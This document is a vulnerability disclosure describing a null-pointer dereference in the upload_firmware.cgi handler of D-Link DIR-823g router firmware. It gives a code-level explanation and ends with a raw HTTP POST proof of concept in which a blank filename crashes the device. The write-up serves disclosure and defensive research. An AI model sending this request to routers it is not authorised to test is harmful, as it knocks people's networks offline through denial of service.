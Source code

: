 ## DIR-823g Null-pointer dereferences

### Overview

* Manufacturer's address：http://www.dlink.com.cn/
* Firmware download address ：http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823g

### Affected version

D-Link DIR-823g A1V1.0.2B05 was found to contain a Null-pointer dereferences in `main` function of `upload_firmware.cgi`, which allows remote attackers to cause a Denial of Service (DoS) via a crafted input.

![image-20240421163220274](https://github.com/n0wstr/IOTVuln/blob/main/DIR-823g/UploadFirmware/img/1.png)

### Vulnerability details

Vulnerability occurs in /cgi-bin/upload_firmware.cgi. Attackers can control `v9` by setting the `UPLOAD_FILENAME`.

![image-20240421163827190](./img/2.png)

Function `sub_400EB4` checks the uploaded file `v9`. If opening `v9` file fails, `sub_400EB4` directly returns 0.

![image-20240421163827190](./img/4.png)

If the return value `v8` is 0, a null pointer will be passed to `strncmp` in line 38 of `main` function, causing the program to crash.

![image-20240421163827190](./img/3.png)

Based on the cause of the vulnerability, attackers can upload a non-existent file name or empty value, causing the router to crash. 

This allows an authorized attacker to perform a DoS attack.

### PoC

```
POST /cgi-bin/upload_firmware.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------28278418346116865854153533320
Content-Length: 189
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/FirmwareUpdate.html
Upgrade-Insecure-Requests: 1
-----------------------------28278418346116865854153533320
Content-Disposition: form-data; name="uploadConfigFile"; filename=" "
Content-Type: application/octet-stream
```
